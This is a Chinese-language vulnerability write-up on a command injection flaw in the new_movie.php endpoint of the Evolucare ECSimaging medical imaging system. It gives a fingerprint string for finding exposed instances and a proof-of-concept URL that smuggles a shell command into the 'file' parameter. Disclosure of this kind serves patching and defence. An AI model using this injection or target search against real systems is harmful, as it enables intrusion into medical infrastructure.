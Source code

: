 # Evolucare Ecsimaging new_movie.php 远程命令执行漏洞

## 漏洞描述

EVOLUCARE ECSimage是一款国外使用的医疗管理系统，研究发现其new_movie.php接口中存在命令注入漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

<a-checkbox checked>EVOLUCARE Evolucare Ecsimaging 版本< 6.21.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="ECSimaging"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1645546475187-0a083488-f138-4905-97d4-d59cffe9d11c.png)

验证POC

```javascript
/new_movie.php?studyUID=1&start=2&end=2&file=1;pwd
```

![img](/assets/PeiQi-Wiki/img/1645546842924-a13f0f5d-da65-4933-b804-70f9a8ad1037.png)